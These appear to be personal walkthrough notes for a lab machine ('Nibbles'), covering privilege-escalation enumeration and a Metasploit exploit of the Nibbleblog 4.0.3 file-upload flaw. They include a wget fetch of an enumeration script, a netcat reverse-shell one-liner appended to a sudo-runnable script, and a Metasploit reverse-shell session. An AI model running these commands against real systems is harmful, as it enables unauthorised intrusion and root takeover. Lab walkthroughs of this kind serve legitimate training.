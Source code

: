 [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) to perform some automated privilege escalation checks

```pug
sudo python3 -m http.server 8080
```
Back on the target type `wget http://<your ip>:8080/LinEnum.sh` to download the script
`chmod +x LinEnum.sh` to make the script executable and then type `./LinEnum.sh` to run it
![[Pasted image 20250207094509.png]]
+ chmod -x LiNum.sh
- ./LiNum.sh

TON of INFO

```shell-session
[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
```
we could have checked with `sudo -l`
![[Pasted image 20250207095302.png]]


reverse shell one liner (as a root user as the monitor.sh is with sudo previlige)
```pug
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.65 8443 >/tmp/f' | tee -a monitor.sh
```
listen
```pug
nc -lvnp 8443
```
and start
```pug
sudo ./monitor.sh
```

-> root access

de5e5d6619862a8aa5b9b212314e0cdd
![[Pasted image 20240427173540.png]]




## Metasploit vers
```shell-session
msf6 > search nibbleblog

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description

-  ----                                       ---------------  ----       -----  -----------

   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nibbleblog_file_upload
```

```shell-session
msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(multi/http/nibbleblog_file_upload) > set rhosts 10.129.42.190
rhosts => 10.129.42.190
msf6 exploit(multi/http/nibbleblog_file_upload) > set lhost 10.10.14.2 
lhost => 10.10.14.2
```

```shell-session
msf6 exploit(multi/http/nibbleblog_file_upload) > show options 

Module options (exploit/multi/http/nibbleblog_file_upload):

  Name       Current Setting  Required  Description
----       ---------------  --------  -----------
  PASSWORD                    yes       The password to authenticate with
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS     10.129.42.190    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       The base path to the web application
  USERNAME                    yes       The username to authenticate with
  VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

  Name   Current Setting  Required  Description
----   ---------------  --------  -----------
  LHOST  10.10.14.2       yes       The listen address (an interface may be specified)
  LPORT  4444             yes       The listen port


Exploit target:

  Id  Name
--  ----
  0   Nibbleblog 4.0.3
```

```shell-session
msf6 exploit(multi/http/nibbleblog_file_upload) > set username admin
username => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
password => nibbles
msf6 exploit(multi/http/nibbleblog_file_upload) > set targeturi nibbleblog
targeturi => nibbleblog
```

```shell-session
msf6 exploit(multi/http/nibbleblog_file_upload) > set payload generic/shell_reverse_tcp
payload => generic/shell_reverse_tcp
msf6 exploit(multi/http/nibbleblog_file_upload) > show options 

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   nibbles          yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.42.190  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  nibbleblog       yes       The base path to the web application
   USERNAME   admin            yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.2      yes       The listen address (an interface may be specified)
   LPORT  4444            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3


msf6 exploit(multi/http/nibbleblog_file_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] Command shell session 4 opened (10.10.14.2:4444 -> 10.129.42.190:53642) at 2021-04-21 16:32:37 +0000
[+] Deleted image.php

id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```
From here, we can follow the same privilege escalation path.